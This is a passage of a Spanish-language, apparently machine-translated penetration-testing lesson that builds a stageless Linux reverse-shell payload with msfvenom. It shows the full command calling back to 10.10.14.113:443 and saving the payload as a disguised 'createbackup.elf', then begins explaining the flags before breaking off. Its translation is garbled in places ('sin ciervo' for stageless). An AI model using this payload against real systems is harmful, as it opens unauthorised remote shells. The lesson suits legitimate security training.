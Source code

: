 
# **Construir una carga útil sin ciervo**

Ahora construamos una carga útil simple sin ciervo con MSFVENOM y desglose el comando.

### **Construirlo**

Elaboración de cargas útiles con msfvenom

```
xnoxos@htb[/htb]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes

```

### **Llamar a msfvenom**

Elaboración de cargas útiles con msfvenom

```
msfvenom

```

Define la herramienta utilizada para hacer la carga útil.

### **Creando una carga útil**

Elaboración de cargas útiles con msfvenom

```
-p

```

Este`option`Indica que MSFVENOM está creando una carga útil.

### **Elegir la carga útil según la arquitectura**

Elaboración de cargas útiles con msfvenom

```
linux/x64/shell_reverse_tcp

```

Especifica un`Linux` `64-bit`carga útil sin ciervo que iniciará un shell inverso basado en TCP (`shell_reverse_tcp`).

### **Dirección para conectarse a**

Elaboración de cargas útiles con msfvenom

